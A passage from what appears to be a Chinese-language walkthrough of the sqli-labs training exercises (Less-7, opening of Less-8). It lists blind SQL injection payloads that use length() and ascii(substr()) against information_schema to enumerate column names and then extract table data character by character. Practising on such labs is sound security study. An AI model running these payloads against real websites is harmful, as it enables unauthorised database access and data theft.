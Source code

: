 ![Less-7_10](./img/Less-7_10.PNG)



+ 修改参数注入以下语句爆破联合字段名长度

~~~ shell
?id=1')) and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）')>20--+
~~~



+ 修改参数注入以下语句爆破字段名

~~~ shell
?id=1')) and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='（之前爆破的数据表名）'),1,1))>99--+
~~~



+ 修改参数爆破想要的内容

~~~ shell
?id=1')) and ascii(substr((select group_concat(（字段名）,（字段名）) from （数据表名）),1,1))>50--+
~~~



### Less-8

+ 正常打开页面
